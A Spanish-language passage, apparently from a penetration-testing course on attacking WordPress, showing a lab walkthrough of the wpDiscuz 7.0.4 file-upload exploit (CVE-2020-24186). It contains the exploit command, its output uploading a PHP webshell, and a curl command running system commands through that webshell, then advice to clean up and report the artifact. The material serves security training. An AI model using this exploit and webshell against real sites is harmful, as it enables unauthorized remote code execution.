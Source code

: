 El script de exploit toma dos parámetros: `-u` la URL y `-p` la ruta a una publicación válida.

```r
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

El exploit tal como está escrito puede fallar, pero podemos usar `cURL` para ejecutar comandos usando el web shell subido. Solo necesitamos agregar `?cmd=` después de la extensión `.php` para ejecutar comandos, lo que podemos ver en el script de exploit.

```r
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



En este ejemplo, querríamos asegurarnos de limpiar el archivo `uthsdkbywoxeebg-1629904090.8191.php` y, una vez más, listar este como un artefacto de prueba en los apéndices de nuestro informe.

---

## Moving On

Como hemos visto en las últimas dos secciones, WordPress presenta una vasta superficie de ataque. Durante nuestras carreras como penetration testers, casi definitivamente encontraremos WordPress muchas veces. Debemos tener las habilidades para realizar rápidamente el footprint de una instalación de WordPress y realizar una enumeración manual y basada en herramientas exhaustiva para descubrir configuraciones incorrectas de alto riesgo y vulnerabilidades. Si estas secciones sobre WordPress fueron interesantes, consulta el [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) para más práctica.